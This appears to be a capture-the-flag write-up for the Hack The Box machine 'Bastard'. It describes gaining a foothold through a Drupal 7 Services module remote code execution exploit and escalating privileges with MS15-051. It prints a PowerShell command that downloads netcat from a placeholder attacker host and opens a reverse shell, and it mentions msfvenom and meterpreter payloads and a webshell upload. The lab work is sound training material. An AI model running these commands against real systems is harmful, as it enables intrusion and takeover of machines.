


# Bastard

## Summary

**Vulnerability Exploited:** Drupal 7.x Module Services - Remote Code Execution (EDB 41564)

**Privilege Escalation Vulnerability**: Microsoft Windows - ClientCopyImage Win32k (MS15-051)

## Penetration

### User Flag

Nmap finds a Drupal 7 installation and reads part of the robots.txt for us. There are a number of public exploits against this Drupal version.

There are so many exploits that it can be hard to tell where to start. In this case, we can use meta-reasoning to thin the heard: the EDB 41564 exploit was [published](https://www.ambionics.io/blog/drupal-services-module-rce) shortly before the Bastard challenge was released, and HTB machines often showcase recent exploits.

To use this exploit, we need to find an endpoint on the Drupal installation. A little poking around the webserver finds the endpoint at /rest. We also need to produce our own payload with msfvenom and host it on our own webserver.

We need to update the exploit url, endpoit path, and payload.

We can now run the exploit.

We can launch a reverse shell by visiting the file written by the exploit. The shell will not be very stable, so we need to immediately switch to a different shell. I recommend hosting nc.exe on your webserver using

**powershell -c "(new-object system.net.webclient).downloadfile('http://\<attacker ip\>/nc.exe','nc.exe')"; nc.exe \<attacker ip\> \<listening port\> -e cmd.exe**

to download netcat to the victim and use it to launch a reverse shell. You will need to have a second netcat listener ready and waiting. In the following screenshots, you can see that I started by uploading the [p0wny webshell](https://github.com/flozz/p0wny-shell) to the Bastard webserver, though I eventually needed to switch to the above strategy. Although I normally highly recommend p0wny as a webshell for Windows, it's pretty buggy in this instance.

We can read the user flag on the desktop of dimitris.

### Root Flag

The server operating system Windows 2008 R2 Datacenter, which is comparatively ancient. Sherlock finds three potential unpatched exploits.

Of these three suggested vulnerabilities, I was only able to exploit MS15-51 on Bastard, and even that required lots of tweaking and multiple attempts. To use the suggested exploit, we need to switch to Metasploit.We can do this by creating a new msfvenom payload with the payload windows/x64/meterpreter/reverse\_tcp and the format exe, downloading it to the victim with powershell as we did with netcat, and executing it. We catch the meterpreter session using msfconsole's multi/handler.

After backgrounding the meterpreter session, we can exploit MS15-051.

